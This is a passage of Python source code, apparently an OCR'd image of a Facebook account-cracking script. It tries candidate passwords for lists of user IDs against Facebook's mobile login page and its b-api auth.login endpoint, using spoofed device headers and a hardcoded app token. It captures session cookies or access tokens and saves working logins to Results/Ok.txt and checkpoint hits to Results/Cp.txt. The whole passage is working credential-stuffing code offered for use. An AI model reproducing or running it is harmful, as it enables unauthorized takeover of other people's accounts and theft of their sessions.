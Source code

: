                         kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://d.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fd.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[JAMES-OK] %s | %s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s | %s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s | %s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[JAMES-CP] %s | %s\x1b[1;97m       "%(uid, pw))
                cp.append("%s | %s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s | %s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack B-api.Facebook.com
def api(ids, uid, pwx):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s OK:-%s - CP:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': ua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
            send = ses.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + str(uid) + '&password=' + str(pw) + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=headers_)
            if 'session_key' in send.text and 'EAAA' in send.text:
                print("\r\x1b[1;92m[JAMES-OK] %s | %s %s\x1b[1;97m"%(uid, pw, send.json()['access_token']))
                ok.append("%s | %s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s | %s\n"%(uid, pw))
                break
            elif 'www.facebook.com' in send.json()['error_msg']:
                print("\r\x1b[1;93m[JAMES-CP] %s | %s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s | %s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack X.Facebook.com
def crack2(ids, uid, pwx, **kwargs):